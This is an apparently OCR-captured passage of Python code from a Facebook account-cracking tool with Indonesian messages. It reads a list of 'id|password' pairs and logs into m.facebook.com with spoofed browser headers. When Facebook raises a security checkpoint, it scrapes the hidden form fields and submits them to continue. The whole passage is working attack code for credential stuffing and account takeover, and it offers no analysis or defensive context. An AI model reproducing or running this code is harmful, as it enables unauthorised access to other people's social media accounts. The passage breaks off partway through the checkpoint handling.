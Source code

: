 	sol().print(mark(cek, style='green'))

	love = 0

	for kes in akun:

		try:

			try:

				id,pw = kes.split('|')[0],kes.split('|')[1]

			except IndexError:

				time.sleep(2)

				print('\r%s++++ %s ----> Error      %s'%(b,kes,x))

				print('\r%s---> Pemisah Tidak Didukung Untuk Program Ini%s'%(u,x))

				continue

			bi = random.choice([u,k,kk,b,h,hh])

			print('\r%s---> %s/%s ---> { %s }%s'%(bi,love,len(akun),id,x), end=' ');sys.stdout.flush()

			ua = 'Mozilla/5.0 (Linux; Android 10; ASUS_X00TD) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.87 Mobile Safari/537.36'

			ses = requests.Session()

			header = {"Host": "m.facebook.com","cache-control": "max-age=0","upgrade-insecure-requests": "1","origin": "https://m.facebook.com","content-type": "application/x-www-form-urlencoded","user-agent": ua,"accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with": "mark.via.gp","sec-fetch-site": "same-origin","sec-fetch-mode": "navigate","sec-fetch-user": "?1","sec-fetch-dest": "document","referer": "https://m.facebook.com/login/?next&ref=dbl&fl&refid=8","accept-encoding": "gzip, deflate","accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"}

			hi = ses.get('https://m.facebook.com')

			ho = sop(ses.post('https://m.facebook.com/login.php', data={'email':id,'pass':pw,'login':'submit'}, headers=header, allow_redirects=True).text,'html.parser')

			if "checkpoint" in ses.cookies.get_dict().keys():

				try:

					jo = ho.find('form')

					data = {}

					lion = ['nh','jazoest','fb_dtsg','submit[Continue]','checkpoint_data']

					for anj in jo('input'):

						if anj.get('name') in lion:

							data.update({anj.get('name'):anj.get('value')})

					kent = sop(ses.post('https://m.facebook.com'+str(jo['action']), data=data, headers=header).text,'html.parser')
